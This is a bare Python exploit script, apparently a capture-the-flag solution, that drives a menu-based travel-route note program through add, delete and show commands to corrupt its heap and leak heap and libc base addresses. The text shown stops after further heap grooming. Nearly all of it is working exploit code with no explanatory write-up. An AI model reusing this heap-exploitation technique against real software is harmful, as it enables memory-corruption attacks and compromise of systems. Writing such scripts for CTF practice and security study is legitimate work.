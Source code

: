 ```python


def add(transport, depart, dest, dist, data):
    cmd(1)
    ru(b"What kind of transportation do you want? car/train/plane?\n")
    sl(transport)
    ru(b"Please input the city name\n")
    sl(depart)
    ru(b"Please input the city name\n")
    sl(dest)
    ru(b"How far?\n")
    sl(i2b(dist))
    ru(b"Note:\n")
    s(data)


def delet(depart, dest):
    cmd(2)
    ru(b"Please input the city name\n")
    sl(depart)
    ru(b"Please input the city name\n")
    sl(dest)


def show(depart, dest):
    cmd(3)
    ru(b"Please input the city name\n")
    sl(depart)
    ru(b"Please input the city name\n")
    sl(dest)


add(b"car", b"guangzhou", b"guangzhou", 999, b"a")
add(b"car", b"guangzhou", b"nanning", 999, b"b")
add(b"plane", b"nanning", b"changsha", 999, b"c")
add(b"car", b"changsha", b"nanchang", 999, b"d")

cmd(5)
ru(b"Please input the city name\n")
sl(b"nanchang")

delet(b"guangzhou", b"guangzhou")
add(b"plane", b"nanchang", b"nanchang", 999, b"a")
add(b"car", b"guangzhou", b"guangzhou", 999, b"a")

show(b"guangzhou", b"guangzhou")
ru(b"Note:")
heap_base = (u64_ex(ru(b"\n", drop=True)) & 0xFFFFFFFFFFFFF000) - 0x1000
lg("heap_base", heap_base)

delet(b"nanning", b"changsha")
delet(b"guangzhou", b"nanning")

add(b"train", b"guangzhou", b"guangzhou", 999, b"a" * 0x510)
show(b"guangzhou", b"guangzhou")
ru(b"Note:" + b"a" * 0x510)
libc_base = u64_ex(ru(b"\n", drop=True)) - 0x21ACE0
lg("libc_base", libc_base)

add(b"train", b"guangzhou", b"guangzhou", 999, b"a")
add(b"car", b"nanning", b"nanning", 999, b"b")
add(b"plane", b"changsha", b"changsha", 999, b"c")
add(b"car", b"guangzhou", b"guangzhou", 999, b"d")
```